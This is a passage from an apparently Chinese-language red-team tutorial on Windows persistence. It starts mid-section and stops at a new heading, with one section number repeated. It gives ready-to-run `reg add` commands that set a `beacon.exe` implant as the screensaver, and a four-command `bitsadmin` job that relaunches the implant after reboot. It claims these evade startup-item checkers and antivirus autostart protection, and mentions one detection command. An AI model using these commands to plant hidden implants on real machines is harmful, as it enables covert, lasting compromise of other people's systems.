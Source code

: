     HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaveActive
    HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaverIsSecure
    HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaveTimeOut
    HKEY_CURRENT_USER\Control Panel\Desktop\SCRNSAVE.EXE
    
        

直接写入注册表即可：

    reg add "hkcu\control panel\desktop" /v SCRNSAVE.EXE /d C:\Users\hunter\Desktop\beacon.exe /f
    reg add "hkcu\control panel\desktop" /v ScreenSaveActive /d 1 /f
    reg add "hkcu\control panel\desktop" /v ScreenSaverIsSecure /d 0 /f
    reg add "hkcu\control panel\desktop" /v ScreenSaveTimeOut /d 60 /f
    
        

看一下进程树，winlogon.exe拉起来的，隐蔽性一般：-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201004225243384.png%23pic_center)-
这里又有个小坑，如果从未设置过屏保程序的话，除“ScreenSaveActive”默认值为1，其他键都是不存在的，而屏保程序的正常运行必须保证这几个键都有数据才可以，因此必须把4个键都重写一遍。另外，经测试屏保程序最短触发时间为60秒，即使改成小于60的数值，依然还是60秒后执行程序。

当然，从注册表路径也可以看出这种方式只能获得当前用户权限的shell，优点是不需要提权即可维持。

**0x07 后台智能传输服务（BITS）**

权限要求：管理员权限（不必过UAC）

后台智能传送服务 (BITS) 可帮助传输大量数据而不会降低网络性能。它通过在小区块中传输数据、充分利用可用的但未使用的带宽和在目的地重组数据的方式来实现此操作。在 Microsoft® Windows Server 2003 家族操作系统上和 Microsoft® Windows 2000 上都支持 BITS。——摘自百度百科

网上的“渗透教程”中有很多利用bitsadmin命令下载文件或执行命令的操作，但它其实也可以用来做权限维持，并且可以绕过Autoruns的检测以及杀软的自启命令执行保护

添加任务的命令很简单，只有4条：

    bitsadmin /create evil
    bitsadmin /addfile evil "C:\Users\hunter\Desktop\beacon.exe" "C:\Users\hunter\Desktop\beacon.exe"
    bitsadmin.exe /SetNotifyCmdLine evil "C:\Users\hunter\Desktop\beacon.exe" NUL
    bitsadmin /Resume evil
    
        

其有个优点是可以在降权的管理员回话中执行（不过UAC），当然得到的beacon也是降权的：![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201004225329441.png%23pic_center)-
重启后由于任务并未结束，依然会被系统拉起，达到了持久化的目的。虽然后台智能传输服务的任务默认时长是90天，90天后任务自动取消，但对于红队来说这已经足够了：-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201004225341646.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
看一下进程树，是“`svchost.exe -k netsvcs`"拉起的。但由于是独立进程，隐蔽性一般：-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201004225446318.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
这种方法可以绕过目前所有启动项检查工具，唯一检测方式是通过bistamin命令：

    bitsadmin /list /allusers /verbose
    
        

可以看到所有任务如下（忘记截图，这是另一台测试机，数据不同）：-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201004225510807.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
**0x07 后台打印程序服务**

权限要求：未降权的管理员权限。
